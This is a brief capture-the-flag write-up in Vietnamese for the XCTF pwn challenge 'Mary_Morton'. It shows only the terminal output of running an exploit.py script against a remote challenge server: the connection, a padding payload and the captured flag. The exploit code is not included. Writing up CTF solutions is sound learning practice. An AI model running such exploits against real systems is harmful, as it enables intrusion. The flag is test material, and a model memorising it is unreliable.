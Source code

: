 # XCTF - PWN Challenge - Mary_morton

>Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Challenge/Mary_Morton λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 65267: Done
[*] Switching to interactive mode
-> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaa
cyberpeace{df79a86bb36dfc4f0a935715a52f716d}
[*] Got EOF while reading in interactive
$  
```
